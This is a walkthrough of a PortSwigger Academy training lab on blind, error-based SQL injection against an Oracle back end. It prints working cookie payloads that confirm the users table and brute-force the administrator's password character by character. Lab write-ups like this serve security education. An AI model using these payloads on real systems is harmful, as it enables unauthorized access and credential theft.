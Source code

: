 # Write-up: Blind SQL injection with conditional errors @ PortSwigger Academy

![logo](img/logo.png)

This write-up for the lab *Blind SQL injection with conditional errors* is part of my walkthrough series for [PortSwigger's Web Security Academy](https://portswigger.net/web-security).

Lab-Link: <https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors>  
Difficulty: PRACTITIONER  
Python script: [script.py](script.py)  

## Lab description

![lab_description](img/lab_description.png)

## Query

The query used in the lab will look something like

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'
```

In the example case, the cookie contains this content
`Cookie: TrackingId=Hhpmds8u7A7Wf4TH; session=CjLImZazM0kQSZvcI7rV4kieQhRygEzJ`

I will omit the complete cookie content from now on and only provide the string appended to the TrackingId value.

## Steps

### Confirm vulnerable parameter

Due to the type of vulnerability, we can neither see any result of the query nor any difference in output based on the truth value of some condition. However, if we can craft requests that cause (or don't cause) a database error based on a condition we inject, we can infer the truth value based on the fact whether an error is shown or not.

So as a first step we need to confirm that the parameter is vulnerable by crafting requests that give `normal` and `error` answers.

Injecting a single quote raises a server error, injecting two single quotes does not. This indicates an injection possibility, so try injecting some SQL statements. Injecting `'||(SELECT+null)||'` still shows an error, however injecting `'||(SELECT+null+FROM+dual)||'` does not. Therefore the database driving the page is an Oracle DB.

### Find 'normal' and 'error' statements

On the [cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet), a conditional error example is given: `SELECT CASE WHEN (<CONDITION>) THEN to_char(1/0) ELSE NULL END FROM dual`

For the `normal` query, we take an input that evaluates to `FALSE`, thus not hitting our division by zero.

```sql
SELECT trackingId FROM someTable WHERE trackingId = X'||(SELECT CASE WHEN (1=2) THEN to_char(1/0) ELSE NULL END FROM dual)||'
```

The content of the cookie for the `normal` case that displays the page as normal is

`'||(SELECT CASE WHEN (1=2) THEN to_char(1/0) ELSE NULL END FROM dual)||'`

The `error` case has a condition that evaluates to true, thus causing the database to execute the division by zero which results in an `internal server error`:

`'||(SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE NULL END FROM dual)||'`

---> Now we have a way to distinguish the result of a boolean condition.

### Confirm database table and columns

The next step is to confirm that the `users` table actually exists in the database. For this, I select from it and use the oracle version of limiting the number of output rows:

`'||(SELECT username||password FROM users WHERE rownum=1)||'`

---> It shows the page, confirming that this is a valid query and thus, that the table name and both column names are valid as well.

Just to be on the safe side, confirmed that invalid names in either of the fields result in an invalid query and an `internal server error`.

### Confirm user exists in the database

To confirm that the user exists in the database it is unfortunately not possible to inject a simple `'||(select username from users where username='administrator')||'`. This is a valid statement regardless of the existence of the user. As such, it shows the page regardless of the username used.

To cause an error, we extend the example by performing the division by zero if the username exists. This statement results in an `internal server error`, indicating that the query resulted in the division by zero:

`'||(SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE NULL END FROM users WHERE username='administrator')||'`

Changing the username to an arbitrary value, the page is shown. This confirms that the condition `1=1` and the following division by zero depend on whether the `FROM users WHERE...` part returns something.

This confirms that the user `administrator` exists in the database.

### Get the length of the password (could be hash as well)

Getting the length is done easily by adding the `LENGTH` function at the end of the SQL condition.

`'||(SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE NULL END FROM users WHERE username='administrator' and LENGTH(password)=1)||'`

This will show the page, indicating that the `1=1` check was never executed. Using Burp Intruder, I test all numbers from 1 to 50 as length, and get this result:

![Length of password](img/length_of_password.png)

--> Password is exactly 20 characters long

### Enumerate the password of the administrator

Now that we have the length of the password, we can brute force each character individually. If the database would store a hash of the password, we could extract the hash for offline cracking.

`'||(SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE NULL END FROM users WHERE username='administrator' and SUBSTR(password,1,1)='a')||'`

This shows the page, indicating that the first letter is not an `a`. Using Burp Intruder again to brute force all 20 characters.

![Brute force password](img/brute_force_password_query.png)

Attack type: *Cluster bomb*

- *Payload 1*: numeric sequential, 1...20
- *Payload 2*: Brute force - for real-life, add special characters

Filtering on server errors again, we can read the password: `3bk8bdchxubqft2tgsxr`

![Brute force password, result](img/brute_force_of_password_result.png)

### Alternative

It is also possible to move the conditional check (e.g. the length of the substring part) into the condition of the `SELECT CASE WHEN` portion.

`'||(SELECT CASE WHEN (substr(password,1,1)='a') THEN to_char(1/0) ELSE NULL END FROM users WHERE username='administrator')||'`

For the length, the string is shown in this picture:

![Condition in a different location](img/condition_different_location.png)

## Try login

With the credentials obtained I log in and the lab updates to

![Login successful](img/Win.png)

